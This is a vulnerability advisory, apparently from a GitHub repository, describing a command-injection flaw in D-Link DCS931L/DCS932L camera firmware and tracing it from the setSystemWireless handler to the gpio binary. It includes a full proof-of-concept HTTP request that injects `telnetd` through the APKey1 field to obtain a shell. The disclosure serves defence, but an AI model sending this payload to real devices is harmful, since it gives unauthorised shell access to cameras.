







# D-Link Vulnerability

Vendor:D-Link

Product:DCS931L、DCS932L

Version:1.12.03、1.12.02

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology camera with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `alphapd` binary:

In `setSystemWireless` function, `APKey1、Key1、Key2、Key3、Key4` is directly passed by the attacker, so we can control the `APKey1、Key1、Key2、Key3、Key4` to attack the OS.

<div  align="center"></div>

<div  align="center"></div>

In `setSystemNetwork` function, It calls the process `gpio`.

`alphapd->wlan.sh->wlan_init.sh->apclient.sh->gpio`

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

In `gpio` binary:

In `wlan_repeater` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>


## PoC

We set `APKey1` as **`telnetd`   ** , and the router will excute it,such as:

```http
POST /setSystemWireless HTTP/1.1
Host: 192.168.1.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 253
Origin: http://192.168.1.4
Authorization: Basic YWRtaW46
Connection: keep-alive
Referer: http://192.168.1.4/extwlan.htm
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

ReplySuccessPage=extwlan.htm&ReplyErrorPage=errrextw.htm&WirelessMode=1&APWEPEncryption=3&APWEPKeyFormat=0&APWEPKeyLen=1&APExtendName=1&APSSID=dlink-02B6&APMaxClient=3&APWEPEncryWay=2&APAuthenticationType=0&APKey1=`telnetd`    &ConfigSystemWireless=Save
```


## Result

Get a shell!

<div  align="center"></div>
